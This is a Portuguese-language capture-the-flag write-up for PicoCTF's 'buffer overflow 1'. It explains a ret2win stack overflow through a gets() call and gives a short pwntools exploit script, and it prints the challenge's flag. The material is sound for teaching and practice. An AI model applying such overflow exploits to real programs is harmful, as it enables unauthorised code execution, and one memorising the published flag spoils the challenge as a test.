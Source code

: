 # WriteUp: buffer overflow 1
## Descrição do Desafio:
**Author**: Sanjay C / Palash Oswal \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/258?category=6&page=2) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Média \
**Data**: 2022 \
**Descrição**:
> Control the return address

## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
Assim como o anterior, este também fornece o arquivo fonte, `vuln.c`. Analisando o arquivo, podemos identificar uma vulnerabilidade de `buffer overflow` na função `vuln()`.
```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```
Ainda olhando para o código, podemos ver que não há nenhuma função setada para caso ocorra segmentation fault, mas ainda há uma função que imprime a flag.
```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```
### 2. Exploit
Como a própria descrição do desafio diz, temos que controlar o endereço de retorno da função `vuln()`, fazer um famoso `Ret2Win`.

Resumidamente, quando uma função é chamada, é colocado o endereço de retorno dela no topo da pilha, e a pilha é uma região que pode ser facilmente sobrescrevida por `buffer overflow` (usando variáveis que estão na pilha, como é esse caso).
### 3. Solução
O primeiro passo para realizar um `Ret2Win` é identificar quantos bytes devem ser sobrescrevidos até chegar na região onde o endereço de retorno está armazenado, no meu caso apenas fui digitando e verificando pelo `GDB`, mas existem maneiras mais fáceis.

Com esse valor em mãos, basta escrever essa quantidade com lixo e em seguida escrever o endereço para onde você quer retornar, se atente a coisas como `little-endian` e arquitetura 32-bits ou 64-bits.

> [!important]
> Para encontrar o endereço da função `win()`, basta olhar em um decompilador ou debugger, pois a proteção `PIE` está desativada.
### 3.1 Solução com Python
```py
from pwn import *

elf = context.binary = ELF("./vuln")
p = remote(ip, porta) #Trocar pelos valores fornecidos.

payload = flat(
    "A" * 44,
    elf.sym["win"]
)

print(hex(elf.sym["win"]))

p.sendlineafter(b"string: ", payload)
p.recvline()

print(p.recvall().decode())
```
### Flag
`picoCTF{addr3ss3s_ar3_3asy_6462ca2d}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
